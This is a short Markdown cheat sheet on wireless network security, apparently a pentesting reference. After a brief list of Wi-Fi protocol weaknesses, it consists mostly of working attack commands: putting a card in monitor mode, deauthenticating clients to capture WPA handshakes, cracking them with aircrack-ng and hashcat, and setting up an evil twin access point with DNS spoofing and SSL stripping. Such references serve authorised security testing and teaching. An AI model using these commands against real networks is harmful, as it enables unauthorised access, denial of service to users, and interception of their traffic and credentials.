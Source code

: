 
## Wireless Network Security

### Wi-Fi Protocols
- **WEP**: Deprecated, easily crackable
- **WPA**: Better than WEP, still vulnerable
- **WPA2**: Current standard, vulnerable to KRACK
- **WPA3**: Latest, most secure

### Wireless Reconnaissance
```bash
# Put interface in monitor mode
airmon-ng check kill
airmon-ng start wlan0

# Scan for networks
airodump-ng wlan0mon

# Capture handshake
airodump-ng -c channel --bssid AP_MAC -w capture wlan0mon

# Deauthentication attack (force handshake)
aireplay-ng --deauth 10 -a AP_MAC wlan0mon
```

### WPA/WPA2 Cracking
```bash
# Crack handshake
aircrack-ng -w wordlist.txt -b AP_MAC capture.cap

# Using Hashcat
cap2hccapx capture.cap output.hccapx
hashcat -m 2500 output.hccapx wordlist.txt
```

### Evil Twin Attack
```bash
# Create rogue AP
airbase-ng -e "FreeWiFi" -c 6 wlan0mon

# DHCP server
dhcpd -cf /etc/dhcp/dhcpd.conf

# DNS spoofing
dnsspoof -i at0

# SSL strip
sslstrip -l 8080
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

